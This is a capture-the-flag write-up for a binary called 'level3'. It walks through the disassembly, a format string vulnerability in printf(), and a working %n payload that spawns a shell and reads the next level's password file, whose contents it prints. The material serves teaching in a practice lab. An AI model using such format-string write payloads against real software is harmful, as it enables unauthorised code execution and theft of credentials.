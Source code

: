 ## level3
`level3` also after running awaits the user to enter some input, once input is given it simply prints it to the standard output and exit. The function `main()` 
is pretty much the same as the one in `level2`
```
0x0804851a <+0>:	push   %ebp
0x0804851b <+1>:	mov    %esp,%ebp
0x0804851d <+3>:	and    $0xfffffff0,%esp
0x08048520 <+6>:	call   0x80484a4 <v>
0x08048525 <+11>:	leave
0x08048526 <+12>:	ret
```
The function simply sets the function prologue and then call the function `v()`.
Using `GBD` we disassembly the function `v()` to find out that it uses the `fgets()` instead of `gets()` function, `fgets()` has a bounding check what makes it secure
and we cannot use it to the __overflow__, we still have an option here, cuz the program after reading the input uses `printf()` to print it to the screen, we know there
is another techmnique we can use to gain control of a privileged program called __*format string exploit*__. Like __*buffer overflow*__ exploits, __*format string*__
also depend on programming mistakes. <br>
| Parameter| Input Type | Output Type |
|----------|------------|-------------|
|%d        | Value      | Decimal     |
|%u        | Value      | Unsigned decimal|
|%x        | Value      | Hexadecimal |
|%s        | Pointer    | String      |
|%n        | Pointer    | Number of bytes written so far|

The `%n` format parameter is unique in that it writes data without displaying anything. When a format function *(here `printf()`)* encouters a `%n` format parameter, it writes
the number of bytes that have been written by the function __address__ in the corresponding function argument.
 The `%n` can be used to write arbitrary data to potentially carefully-selected addresses.

Returning to the function `v()`, right after the call to `printf()` a value from *0x804988c* is moved into the register __eax__ and a comparison is
made:<br> `0x080484df <+59>:	cmp    eax,0x40`<br> if the value in the __address__ `0x080484df` is not equal to *0x40(64)* the program simply jumps to the `leave`
instruction and the function returns to the next instruction from `main()` that is the `leave` __address__ *0x08048525*.<br>Otherwise if value is equal to *0x40(64)* the execution will follow and the parameters to `<fwrite@plt>` will be loaded in the respectives register to print the value contained in the __address__ *0x8048600 ("Wait what?!\n")* right next the string contained in *0x804860d( "/bin/sh")* will be moved into *esp* <br> `0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d` <br> and the function `<system@plt>` will be called<br> `0x08048513 <+111>:	call   0x80483c0 <system@plt>` <br>So now we know that's what we want the function to do, so our task is to find a way to set the value at `0x804988c` to `0x40`, and this should be possible with `printf()`

Our task will be to put a format string specifier in the parameter passed to `printf()`<br>
We can check if `printf()` has access to the stack
```
(gdb) x/4xw $esp
0xbffff4d0:	0xbffff4e0	0x00000200	0xb7fd1ac0	0xb7ff37d0

~$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825

~$ echo "AAAA %x %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```

Here we can see our string `AAAA` is being placed in the stack in the 4th place, what we need here is to replace the `AAAA` string with the __address__ that's being checked in the function *0x804988c* like so *(remember about little end first)*
```
~$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
200 b7fd1ac0 b7ff37d0 804988c
```
We will replace the *format string specifier* from `%x` to `%n` as what we are trying to do is set the __address__ value to *64* and as said above the `%n` can be used to write data to an __address__. <br> We will aslo be using the __Direct Parameter Access__ `($)` with *4* because as checked in our tests the `printf()` was placing it in the 4th position so the `%x` will become `%4$n` what means, write the number of bytes printed so for in the 4th position in the stack.<br>
*(Since this is being done on the command line and the dollar sign is a special charater, it must be scaped with a backslash)* <br>
So what we need is to create a string of *64 bytes (the number what will be checked in the v() function)* with the __address__ to write to *(that's is 4 bytes long)* plus *60 bytes* plus the *format string specifier* and that gives us: <br>
`(puthon -c "print(\x8c\x98\x04\x08) + 60 * 'A' + '%4\$n'")` <br>
Now just add the `cat` command with the `-` option to keep the standard entry open and get access to the shell <br>
```
(python -c "print('\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n')"; cat -) | ./level3

�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
